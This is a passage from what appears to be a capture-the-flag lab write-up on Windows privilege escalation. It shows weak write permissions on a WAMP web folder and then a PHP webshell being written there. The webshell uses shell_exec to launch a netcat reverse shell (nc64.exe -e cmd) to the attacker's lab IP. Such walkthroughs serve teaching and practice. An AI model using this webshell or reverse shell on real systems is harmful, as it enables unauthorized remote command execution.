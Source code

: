 There’s a bunch of processes without owners that seem reasonable to be running as SYSTEM, and a bunch of processes running as Raziel. But two jump out as interesting. `httpd.exe` and `mysqld.exe` are both blank.

#### wamp

[WAMP](https://www.wampserver.com/en/) is a web environment for Windows that brings Apache (`httpd.exe`), PHP, and MySQL. It’s running out of `C:\wamp64`, and the permissions on the `www` folder are weak:

```

PS C:\wamp64> icacls www
www NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
    BUILTIN\Administrators:(I)(OI)(CI)(F)
    BUILTIN\Users:(I)(OI)(CI)(RX)
    BUILTIN\Users:(I)(CI)(AD)
    BUILTIN\Users:(I)(CI)(WD)
    CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files

```

`AD` and `WD` represent “Append data/add subdirectory” and “Write data/add file” respectively, according to the [Microsoft docs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls). That means any user can write there.

### Shell Via PHP

#### Write

I’ll write a webshell. I’ve had really bad luck echoing from PowerShell, so I’ll want to do it entirely from CMD. With a bit of playing around, I get this working:

```

PS C:\wamp64\www> cmd /c "echo ^<?php shell_exec("C:\\programdata\\nc64.exe -e cmd 10.10.14.6 443 ") ?^> "
<?php shell_exec(" C:\\programdata\\nc64.exe -e cmd 10.10.14.6 443 ") ?> 

```

I’ll use the `^` to escape the `<` and `>` as shown [here](https://www.robvanderwoude.com/escapechars.php), same as I did in [Fighter](/2022/04/25/htb-fighter.html#reverse-shell-option-2). I had to play a bit with the `"` to get them to work, but that did. I’ll also have to escape the `\` with a second `\`.

I’ll write that to a file:

```

PS C:\wamp64\www> cmd /c "echo ^<?php shell_exec("C:\\programdata\\nc64.exe -e cmd 10.10.14.6 443 ") ?^> > 0xdf.php"

```
